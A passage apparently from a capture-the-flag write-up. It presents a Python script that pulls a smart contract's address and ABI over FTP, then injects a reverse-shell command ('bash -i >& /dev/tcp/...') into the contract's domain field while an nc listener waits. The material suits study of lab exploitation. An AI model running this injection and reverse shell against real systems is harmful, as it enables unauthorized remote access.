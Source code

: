 
### Script It

Putting that all together, I’ll write a Python script to get a shell. It will
read the contract files over FTP, then use `Web3` to connect to the contract
and issues the shell injection. After a short sleep, it will set the domain
back to “google.com”.

    
    
    #!/usr/bin/env python3
    
    import json
    import sys
    import time
    import urllib.request
    from subprocess import Popen, PIPE
    from web3 import Web3
    
    infra_url = "http://10.10.10.142:9810"
    
    # Get address over FTP
    with urllib.request.urlopen('ftp://10.10.10.142/address.txt') as add_ftp:
        address = add_ftp.read().strip().decode()
    print(f"[+] Got address over FTP: {address}.")
    
    # Get json over FTP
    with urllib.request.urlopen('ftp://10.10.10.142/WeaponizedPing.json') as wp_ftp:
        wp = json.load(wp_ftp)
    print(f"[+] Got abi over FTP: {wp['abi']}")
    
    web3 = Web3(Web3.HTTPProvider(infra_url))
    if not web3.isConnected():
        print(f"[-] Failed to connect to {infra_url}")
        sys.exit()
    print(f"[+] Connected to web3 provider: {infra_url}")
    
    contract = web3.eth.contract(address=address, abi=wp['abi'])
    web3.eth.defaultAccount = web3.eth.accounts[5]
    
    print("[*] Starting listener on port 443")
    nc = Popen(("nc -nl 443"), shell=True)
    
    print(f"[*] Current domain value is: {contract.functions.getDomain().call()}")
    contract.functions.setDomain("google.com").transact()
    time.sleep(1)
    contract.functions.setDomain("google.com; bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'").transact()
    print(f"[+] Domain value now: {contract.functions.getDomain().call()}")
    print(f"[*] Sleeping to allow connection")
    time.sleep(4)
    contract.functions.setDomain("google.com").transact()
    